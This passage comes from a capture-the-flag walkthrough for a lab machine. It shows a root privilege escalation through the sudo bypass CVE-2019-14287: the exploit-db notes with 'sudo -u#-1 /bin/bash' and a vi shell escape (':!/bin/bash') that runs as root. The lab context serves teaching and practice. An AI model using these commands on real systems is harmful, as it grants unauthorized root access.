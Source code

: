 I also know vi can be used for privilege escalation when we have sudo rights. Let's check the [GTFOBins](https://gtfobins.github.io/gtfobins/vi/) for reminder.

If we could use sudo as root we could use vi to get a root shell. Let's try to find a way around this `(ALL, !root)` problem. 

We can check which version of sudo we have and see if that has vulnerabilities:

```
gwendoline@year-of-the-rabbit:~$ sudo --version
Sudo version 1.8.10p3
Sudoers policy plugin version 1.8.10p3
Sudoers file grammar version 43
Sudoers I/O plugin version 1.8.10p3
```

Looking for sudo in exploit-db I  found this [exploit](https://www.exploit-db.com/exploits/47502) for vulnerability [CVE-2019-14287](https://nvd.nist.gov/vuln/detail/CVE-2019-14287).

In short it goes like:
```
sudo -l 

User hacker may run the following commands on kali:
    (ALL, !root) /bin/bash

EXPLOIT: 

sudo -u#-1 /bin/bash

Description :
Sudo doesn't check for the existence of the specified user id and executes with arbitrary user id with the sudo priv
-u#-1 returns as 0 which is root's id
```

So in our case we can run:

`sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt`

and then in vi `:!/bin/bash`  
